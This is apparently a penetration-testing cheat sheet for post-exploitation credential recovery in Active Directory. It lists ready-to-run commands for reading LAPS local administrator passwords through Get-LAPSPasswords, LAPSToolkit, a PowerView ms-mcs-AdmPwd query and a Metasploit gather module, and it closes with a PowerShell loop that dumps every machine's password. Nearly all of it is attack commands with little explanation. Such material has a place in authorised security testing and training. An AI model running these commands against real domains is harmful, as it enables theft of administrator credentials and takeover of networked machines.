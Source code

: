 # LAPS

% laps, password

## get laps passwords
#assessment/AD #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER  
```
Get-LAPSPasswords -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize
```

## get laps computer list
#assessment/AD #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER  
```powershell
Import-Module .\LAPSToolkit.ps1
Get-LAPSComputers
```

## find the list of group who can manipulate SAM data
#assessment/AD #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER  
```powershell
Import-Module .\LAPSToolkit.ps1
Find-LAPSDelegatedGroups
```

## powerview get laps password
#assessment/AD #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER  
```powershell
Get-DomainObject <computer> -Properties "ms-mcs-AdmPwd",name
```

## metasploit get laps password
#assessment/AD #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER  
```
use windows/gather/credentials/enum_laps
```

## get all machine passwords
#assessment/AD #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
```

